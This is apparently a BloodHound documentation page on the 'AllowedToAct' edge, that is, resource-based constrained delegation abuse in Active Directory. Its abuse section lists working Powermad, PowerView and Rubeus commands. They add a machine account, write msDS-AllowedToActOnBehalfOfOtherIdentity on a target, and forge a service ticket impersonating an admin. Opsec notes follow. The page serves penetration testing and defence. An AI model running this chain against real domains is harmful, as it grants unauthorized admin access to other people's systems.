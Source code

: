 ---
title: AllowedToAct
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

This edge allows an attacker to abuse resource-based constrained delegation to compromise the target. This property is a binary DACL that controls what security principals can pretend to be any domain user to the particular computer object.

An attacker can execute a modified S4U2self/S4U2proxy abuse chain to impersonate any domain user to the target computer system and receive a valid service ticket “as” this user.

One caveat is that impersonated users can not be in the “Protected Users” security group or otherwise have delegation privileges revoked. Another caveat is that the principal added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL _must_ have a service principal name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an attacker does not currently control an account with a SPN set, an attacker can abuse the default domain MachineAccountQuota settings to add a computer account that the attacker controls via the Powermad project.

**Abuse Info**

Abusing this primitive is currently possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson’s Powermad project can be used to add a new attacker-controlled computer account:
```bash
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```bash
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```
We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case:

```bash
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
```bash
Rubeus.exe hash /password:Summer2018!
```
And finally we can use Rubeus’ _s4u_ module to get a service ticket for the service name (sname) we want to “pretend” to be “admin” for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```
See a video walk through of how to execute this attack here:

<iframe id="youtube-453" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for BloodHound 2.1's New Computer Takeover Attack" width="100%" height="420" src="https://www.youtube.com/embed/RUbADHcBLKg?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp;widget_referrer=https%3A%2F%2Fsupport.bloodhoundenterprise.io%2Fhc%2Fen-us%2Farticles%2FAllowedToAct&amp;rel=0&amp;showinfo=0&amp;iv_load_policy=3&amp;modestbranding=1&amp;customControls=true&amp;noCookie=false&amp;enablejsapi=1&amp;origin=https%3A%2F%2Fsupport.bloodhoundenterprise.io&amp;widgetid=1" data-gtm-yt-inspected-6="true"></iframe>

## Opsec Considerations

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the ability to send/receive traffic in the domain.

## References

* [https://eladshamir.com/2019/01/28/Wagging-the-Dog.html](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
* [https://github.com/GhostPack/Rubeus#s4u](https://github.com/GhostPack/Rubeus#s4u)
* [https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
* [https://blog.harmj0y.net/redteaming/another-word-on-delegation/](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
* [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* [https://github.com/Kevin-Robertson/Powermad#new-machineaccount](https://github.com/Kevin-Robertson/Powermad#new-machineaccount)

